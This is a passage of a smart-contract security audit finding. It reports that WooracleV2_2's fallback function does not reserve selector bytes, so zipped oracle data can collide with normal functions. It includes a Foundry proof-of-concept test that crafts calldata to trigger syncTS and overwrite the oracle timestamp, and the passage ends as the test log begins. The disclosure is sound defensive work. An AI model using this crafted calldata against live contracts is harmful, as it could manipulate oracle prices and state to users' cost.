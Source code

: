 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
            length: 0x15,
            leadingBytesOfBody: abi.encodePacked(hex"bade07", addressAndPrice)
        });
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        (uint256 price, bool feasible) = oracle.price(address(0x1111));
        assertEq(price, 100);
        assertTrue(feasible);
    }

    function testCollisionWithSyncTS() public {
        // selector of "syncTS(uint256)": "4f1f1999"
        uint256 timestamp = 12345678;
        bytes memory zip = _makeZipData({
            op: 1,
            length: 0xf,
            leadingBytesOfBody: abi.encodePacked(hex"1f1999", timestamp)
        });
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        assertEq(oracle.timestamp(), timestamp);
    }

    function _makeZipData(
        uint8 op,
        uint8 length,
        bytes memory leadingBytesOfBody
    ) internal returns (bytes memory result) {
        assertTrue(length < 2 ** 6);
        assertTrue(op < 4);
        bytes1 head = bytes1(uint8((op << 6) + (length & 0x3F)));
        uint256 sizeOfItem = op == 0 || op == 2 ? 5 : 13;
        uint256 sizeOfHead = 1;
        uint256 sizeOfBody = sizeOfItem * length;
        assertTrue(sizeOfBody >= leadingBytesOfBody.length);
        result = bytes.concat(head, leadingBytesOfBody, _makePseudoRandomBytes(sizeOfBody - leadingBytesOfBody.length));
        assertEq(result.length, sizeOfHead + sizeOfBody);
    }

    function _makePseudoRandomBytes(uint256 length) internal returns (bytes memory result) {
        uint256 words = (length + 31) / 32;
        result = new bytes(words * 32);
        for (uint256 i; i < words; ++i) {
            bytes32 rand = keccak256(abi.encode(block.timestamp + i));
            assembly {
                mstore(add(add(result, 32), mul(i, 32)), rand)
            }
        }

        assembly {
            mstore(result, length) // change to required length
        }
        assertEq(length, result.length);
    }
}

```

And the logs:
```solidity
2024-03-woofi-swap\WooPoolV2> forge test --match-contract WooracleZipBugTest -vv
[⠢] Compiling...No files changed, compilation skipped
````